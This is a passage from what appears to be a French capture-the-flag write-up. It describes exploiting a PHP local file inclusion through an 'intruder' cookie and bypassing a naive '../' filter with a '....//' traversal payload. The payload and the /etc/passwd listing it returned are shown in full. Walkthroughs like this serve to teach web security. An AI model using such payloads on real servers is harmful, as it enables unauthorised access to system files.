 Mais que ce soit avec `admin` ou `Jack` je n'ai eu aucun résultat valide :(  

J'ai fouiné toujours plus et remarqué que lorsque l'on dépasse une certaine quantité de `failcount`, le serveur retourne un cookie `intruder=1`.  

Et si on demande `panel.php` avec ce cookie défini on découvre que du code html supplémentaire est ajouté à la fin avec *"INTRUDER ALERT!"* :)  

Il y a donc fort à parier que le script fait un bête `include()` de la valeur du cookie *intruder* (rappelez-vous le fichier dont le nom est *1*).  

Et effectivement si on définit ce cookie à `server.php` la page `server.php` se retrouve dans `panel.php`.  

Seulement... `/etc/passwd` ne passe pas et `../../../../../../../etc/passwd` non plus. Etonnant car par exemple `./server.php` fonctionne.  

Vraisemblablement, il y a un filtre qui doit retirer les tentatives de remontée d'arborescence.  

Si on met `intruder=../server.php` alors BANG ! On retrouve `server.php` qui est dans le dossier local !  

Le script fait en réalité un `str_replace` tout bête et si on passe `....//....//....//....//....//....//....//....//etc/passwd` j'obtiens :  

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:104:108:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
george:x:1000:1000:george,,,:/home/george:/bin/bash
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
jack:x:1001:1001::/home/jack:/bin/sh
milk_4_life:x:1002:1002::/home/milk_4_life:/bin/sh
developers:x:1003:1003::/home/developers:/bin/sh
bazza:x:1004:1004::/home/bazza:/bin/sh
oj:x:1005:1005::/home/oj:/bin/sh
```
